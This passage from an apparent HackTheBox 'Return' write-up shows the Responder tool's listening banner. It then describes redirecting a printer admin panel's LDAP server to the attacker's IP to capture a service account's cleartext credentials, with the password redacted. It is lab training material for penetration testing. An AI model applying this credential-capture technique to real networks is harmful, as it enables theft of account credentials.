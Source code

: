 ```bash
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.16.8]
    Responder IPv6             [dead:beef:4::1006]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-8IV3QBR5OTW]
    Responder Domain Name      [UCI7.LOCAL]
    Responder DCE-RPC Port     [45552]

[+] Listening for events...
```

Now, we can set the server address to our IP address on the printer admin panel : 

![Untitled](HackTheBox%20-%20Return%20(Easy)%207810dc74a6794c72bde6fc44c60c5cf6/Untitled%202.png)

Then we can click on the **Update** button. Finally, let’s see if [Responder](https://github.com/SpiderLabs/Responder) captured the LDAP authentication request : 

```bash
[LDAP] Cleartext Client   : 10.129.95.241
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : [HIDDEN]
```

